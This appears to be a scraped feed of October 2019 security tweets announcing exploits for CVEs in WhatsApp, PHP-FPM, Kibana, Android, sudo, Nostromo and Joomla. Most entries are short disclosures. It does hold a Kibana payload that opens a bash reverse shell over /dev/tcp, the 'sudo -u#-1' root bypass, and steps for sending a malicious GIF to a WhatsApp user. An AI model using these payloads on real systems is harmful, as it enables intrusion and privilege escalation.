







# wugeej
**https://twitter.com/wugeej/status/1188986338764189696 _at 2019-10-29, 01:10:08_**
<blockquote>
[PoC] CVE-2019-11932 Whatsapp 2.19.216 Remote Code Execution

1. set the listner ip (nc -lvp 5555)
2.  run ./exploit and save the content to .gif
3. exploit.gif file and send it as Document with WhatsApp to another WhatsApp user

https://t.co/dpeiJOpg4m
https://t.co/lXWWAcq8Y4 https://t.co/JWwNDm4EDY
</blockquote>

* https://github.com/dorkerdevil/CVE-2019-11932
* https://github.com/awakened1712/CVE-2019-11932

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>759</code></td>
<td>Favorites: <code>1535</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1188171528090746880 _at 2019-10-26, 19:12:22_**
<blockquote>
CVE-2019-11043 🔥

A new RCE flaw in #PHP 7+ could allow attackers to hack sites running on #Nginx with php-fpm enabled on certain configurations—which is reportedly not uncommon.

Read Details ➤ https://t.co/coTu2lh1bK

➡️ PHP released patches
➡️ Researcher released PoC exploit https://t.co/AdhV9iS74m
</blockquote>

* https://thehackernews.com/2019/10/nginx-php-fpm-hacking.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>436</code></td>
<td>Favorites: <code>610</code></td>
</tr></table>

---

# mohammadaskar2
**https://twitter.com/mohammadaskar2/status/1187760303867645960 _at 2019-10-25, 15:58:18_**
<blockquote>
Just wrote an article about how I found two RCE 0-days (CVE-2019-16662 and CVE-2019-16663) in rConfig network configuration and management software via static code analysis.

I didn't expected to find such an easy to spot vulnerabilities in this software.

https://t.co/uU8NQuHKLo
</blockquote>

* https://shells.systems/rconfig-v3-9-2-authenticated-and-unauthenticated-rce-cve-2019-16663-and-cve-2019-16662/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>243</code></td>
<td>Favorites: <code>573</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1185860595620311042 _at 2019-10-20, 10:09:32_**
<blockquote>
CVE-2019-7609  If you can't pop a shell via the last tweet ， you can change poc like 👇

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i&gt;&amp; /dev/tcp/127.0.0.1/6666 0&gt;&amp;1\'");//')

#BugBountyTips #BugBounty #bugbountytip https://t.co/XLGHJnxT0Y
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>280</code></td>
<td>Favorites: <code>599</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1185132930148061185 _at 2019-10-18, 09:58:03_**
<blockquote>
Researcher released PoC exploit code for CVE-2019-2215 Android zero-day flaw https://t.co/JXTe1kmaxd
</blockquote>

* https://securityaffairs.co/wordpress/92633/hacking/cve-2019-2215-zero-day-exploit.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1184834125821145095 _at 2019-10-17, 14:10:43_**
<blockquote>
qu1ckr00t (CVE-2019-2215)

Researcher releases proof-of-concept for a recent #Android kernel arbitrary read/write zero-day vulnerability that was being actively exploited in the wild.

https://t.co/yBf9n7fXzO

Demo: https://t.co/Ih2biu7Dbf
</blockquote>

* https://github.com/grant-h/qu1ckr00t
* https://twitter.com/Digital_Cold/status/1182045384505466885

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1183951800421871616 _at 2019-10-15, 03:44:40_**
<blockquote>
CVE-2019-14287   sudo -u#-1 xxxx

This can be used by a user with sufficient sudo privileges to run
commands as root even if the Runas specification explicitly disallows
root access as long as the ALL keyword is listed first in
the Runas specification.

https://t.co/zoTpcGEm4y https://t.co/TIZUjBjeTd
</blockquote>

* https://seclists.org/oss-sec/2019/q4/18

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1183947634974740480 _at 2019-10-15, 03:28:07_**
<blockquote>
#0day CVE-2019-16278 RCE
Nostromo httpd is prone to 2 cricital 
vulnerabilities for versions &lt;= 1.9.6 

first one is an RCE through directory transversal
second one is a DoS (CVE-2019-16279) https://t.co/Q1nvRze8aN
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# _sp0re
**https://twitter.com/_sp0re/status/1183793963209244672 _at 2019-10-14, 17:17:29_**
<blockquote>
Let's drop some #0days! Today targetting nostromo httpd, a webserver running on routers @internetofshit 

CVE-2019-16278 - Directory transversal leading to remote code execution
CVE-2019-16279 - Denial of Service

https://t.co/awfzs1xNFN
</blockquote>

* https://git.sp0re.sh/sp0re/Nhttpd-exploits

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>240</code></td>
</tr></table>

---

# Digital_Cold
**https://twitter.com/Digital_Cold/status/1182045384505466885 _at 2019-10-09, 21:29:15_**
<blockquote>
Rooting a Pixel 2 with Magisk from an untrusted app using CVE-2019-2215, no OEM unlock needed https://t.co/yGovBluQj5
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>27</code></td>
<td>Retweets: <code>244</code></td>
<td>Favorites: <code>878</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1181431525356654593 _at 2019-10-08, 04:50:00_**
<blockquote>
Zero-day published for old Joomla CMS versions

-PoC available
-trivial to exploit
-impacts 3.x to 3.4.6
-PHP object injection leading to RCE
-no CVE yet
-similar to CVE-2015-8562, but not PHP environment-tethered

https://t.co/0TDyNcocUP https://t.co/Xsx3euViez
</blockquote>

* https://www.zdnet.com/article/zero-day-published-for-old-joomla-cms-versions/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# xerosecurity
**https://twitter.com/xerosecurity/status/1181021114492837888 _at 2019-10-07, 01:39:10_**
<blockquote>
Sn1per v7.3 Released! Added AltDNS, DNScan, MassDNS plugins &amp;  CVE-2019-15107 Webmin &lt;= 1.920 - Unauthenticated RCE autopwn + more! https://t.co/uOU7Fhn4Th #hackers #netsec #bugbounty #hacking #redteam #OSINT #recon #offsec #CTF #pentest https://t.co/HLKUCnieko
</blockquote>

* https://github.com/1N3/Sn1per

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1180993519327924225 _at 2019-10-06, 23:49:31_**
<blockquote>
[CVE-2019-2215] critical unpatched zero-day vulnerability affecting the Android mobile operating system.

Escalate privileges to gain root access to a vulnerable device. 

[poc.c] https://t.co/rFquk1LWpO

[uaf_test.c] https://t.co/JGmCVuj1WX

https://t.co/R3o8hNkGGf https://t.co/t0pU2cYJoQ
</blockquote>

* https://00e9e64bac2d53fe420f7c6b0702b847a830a4e8470c46969c-apidata.googleusercontent.com/download/storage/v1/b/monorail-prod.appspot.com/o/26%2Fattachments%2Fc700ee47-ea4d-4825-a67e-ef785f011ccc?qk=AD5uMEtxm7d4E18RhqRQraMLOl6oh_gmsMI2O5PvXo5mHk4VNxAb77erVac8c3KSyRtugVEZuT8gvTJvWnVrAwU14gJ_fcnexxSUBUiVLMVmDNW_MnlnB4U_dZxElWsclib1R5YCLvQtdcssIIv6AKVi4RxNrSZ6cbdcJel7i9UxgyBRzgRgf_exdo9n8_iSR_njMMtajKo6pN7oe3O6KtWyXM3jqNc9XlPMjNNb94nosp6SURCOaY8HkT7cmsJ8PdIPZImQXKJ-WsX-UYVwrPxaViVZTjQN7UEFO7fL-n1ly7klkgPL6ilVpB5zTK1xOwwmQxhqZLuHPYeEbk4ldtC6ouY90R0qAlSnxBumFAk1v6kX5GopBtlXoRKwjDscsDk7kK3Q0W_qps3glU-8qfDytU8ZHBXfm6lBkCVwJZGlY23WjH5zA7C_EWCWF8ZQEJNskGn87_CdjhWitnEeKwiPAItijSmfHXPdHbCYjjYG4n58cJ5pOFxfBPIDQ8-S2d0KGgJ6fJoHeuRYl0Ut6rqNMsSKehIe1jeEl0TZUJC_BjqPUFnNwzRvz-TazvQV21KEBqO-rJ4LORuTMHPBJ62GrsNdXd2HJabaapbDnCrcI1fwXWFR-4EUssiM-Qxz-u6ioakyPeJ1HpojKlHB_5snPrWz1YlZG9nOiQ6Ecom4pgD0sClXn57PDeJWfU8A25cIrXIul3161Ui_nu1Z_cd3Qwv6f9zs5z13DJ7hNi6DqvI6ws9sqNKLusHtMORD26DHsAUOGyBtg1p76Kn-1madffBb_CY_hKEvjKjLHGkrng_OyKCx_kx1it2ce83mYuEB4R1SifoHu-lo1u8-0Wfo1LCku6xzzEYctQo1jzDZ2Mc_Et583tY
* https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=414030
* https://bugs.chromium.org/p/project-zero/issues/detail?id=1942

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

